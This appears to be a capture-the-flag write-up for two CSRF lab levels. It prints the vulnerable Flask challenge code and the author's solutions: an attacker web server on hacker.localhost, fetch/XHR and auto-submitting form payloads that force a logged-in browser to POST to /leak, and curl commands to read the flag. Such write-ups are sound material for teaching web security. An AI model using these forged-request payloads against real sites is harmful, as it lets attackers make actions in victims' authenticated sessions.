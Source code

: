 # Cross-Site Request Forgery (CSRF) Vulnerabilities

## Level 11 - Exploit a cross site request forgery vulnerability

Code for this level,

```python
def level11():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == hacker_host, f"Invalid `url`, hostname should be `{hacker_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    return "Not Found\n", 404
```

This one requires the `/visit` url to go to `hacker.localhost`, so I write a simple web server listening to that address on port 8080 which redirects to the `/leak`

```python
#!/usr/bin/env python3

from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def home():
    return redirect("http://challenge.localhost/leak", code=302)

if __name__ == "__main__":
    app.run(host='hacker.localhost', port=8080)
```

I then call `/visit` using that url,

```sh
curl http://challenge.localhost/visit?url=http://hacker.localhost:8080
```

and then get the flag with,

```sh
curl http://challenge.localhost/info?user=1
```

## Level 12 - Exploit a cross site request forgery vulnerability where the request must POST

```python
def level12():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password, ? as leak'),
               (flag, False))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"

            user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
            assert user, "Invalid `username` or `password`"

            session["user"] = int(user["rowid"])
            return redirect(request.path)

        return form(["username", "password"])

    if request.path == "/leak" and request.method == "POST":
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == hacker_host, f"Invalid `url`, hostname should be `{hacker_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    return "Not Found\n", 404
```

I can see that I must make a request to the `/visit` endpoint which will call out to a web server I write listening on `http://hacker.localhost:8080` after logging in.

The HTML I return must cause the browser in `/visit` to make a POST request to the `/leak` endpoint and include the session cookies. I've tried returning HTML that contains JavaScript that does the post in an XSS attack. That JavaScript works, but it does not include the session cookies from the previous login.

My web server is as follows, modifying the HTML that is returned,

```python
#!/usr/bin/env python3

from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/')
def home():
    return '''<html>
    <script>
      // XSS attack
    </script>
    </html>'''

if __name__ == "__main__":
    app.run(host='hacker.localhost', port=8080)
```

I've tried two HTML payloads so far,

```html
<html>
  <script>
    fetch('http://challenge.localhost/leak', {
      method: 'POST',
      credentials: 'include'
    })
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error));
  </script>
</html>
```

and

```html
<html>
  <script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.localhost/leak', true);
    xhr.withCredentials = true;
    xhr.onload = function () {
        console.log(xhr.responseText);
    };
    xhr.send();
  </script>
</html>
```

Another option is to use an HTML form with an auto-submitting script.

```html
<html>
  <body>
    <form id="leakForm" action="http://challenge.localhost/leak" method="POST">
      <input type="hidden" name="data" value="leak">
    </form>
    <script type="text/javascript">
      document.getElementById('leakForm').submit();
    </script>
  </body>
</html>
```

This works because it is the web page that is submitting the form rather than making a direct request from JavaScript as in my first two attempts.

As in the previous level, I call `/visit` using that url,

```sh
curl http://challenge.localhost/visit?url=http://hacker.localhost:8080
```

and then get the flag with,

```sh
curl http://challenge.localhost/info?user=1
```
